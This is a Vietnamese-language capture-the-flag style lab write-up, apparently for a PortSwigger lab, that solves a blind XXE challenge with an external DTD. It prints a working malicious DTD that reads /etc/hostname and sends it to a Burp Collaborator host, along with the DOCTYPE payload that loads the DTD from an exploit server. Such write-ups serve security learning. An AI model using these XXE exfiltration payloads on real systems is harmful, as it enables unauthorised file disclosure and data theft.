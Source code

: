 ![](img/13.png)
### Giải quyết
- Từ mô tả tôi biết rằng trong lab này sẽ phải sử dụng external DTD để khai thác.
- Lab có sẵn 1 exploit server cho phép lưu trữ tệp.
- Tiến hành khai thác:
    - Đầu tiên chuẩn bị 1 file `dtd` và lưu nó trên exploit server với nội dung:
    ```
    <!ENTITY % file SYSTEM "file:///etc/hostname">
    <!ENTITY % eval "<!ENTITY &#x25; exf SYSTEM 'http://b5h48zc4718pauyz51kr21fn8ee62v.burpcollaborator.net/?x=%file;'>">
    %eval;
    %exf; 
    ```
        - Dòng đầu tiên sẽ chứa nội dung file muốn trích xuất thông tin.
        - Dòng thứ 2: định nghĩa XML parameter entity `eval` sẽ chứa phần dynamic declaration (có thể gọi là khai báo động) cho một XML parameter entity khác là `exf` 
        - `&#x25;` là hex code của `%`
        - Dòng thứ 3 `%eval` gọi tham chiếu đến parameter entity `eval` từ đó tạo dynamic declaration cho `exf` entity. Quá trình này cũng sẽ gọi tham chiếu đến `file` entity để đọc nội dung file `/etc/hostname` từ đó lấy giá trị gán vào URL query string chỗ `?x`
        - Dòng cuối cùng `%exf` gọi tham chiếu đến arameter entity `exf` tạo HTTP request với URL query string chứa thông tin file /etc/hostname tới Burp Collaborator từ đó thông tin file sẽ bị rò rỉ.
    - Sau khi lưu file trên exploit server -> view exploit để lấy đường dẫn đến file vừa lưu
    - Cuối cùng quay lại chức năng `Check stock` để kích hoạt DTD file trên exploit server.
    `<!DOCTYPE foo [<!ENTITY % test SYSTEM "https://exploit-0abf004804f62a71c158611301db0074.exploit-server.net/exploit.dtd"> %test;]> `
    ![](img/14.png)
    ![](img/15.png)
    - Submit thông tin lấy được trên URL query string để hoàn thành lab.
    ![](img/16.png)
    ###### Solved!
    


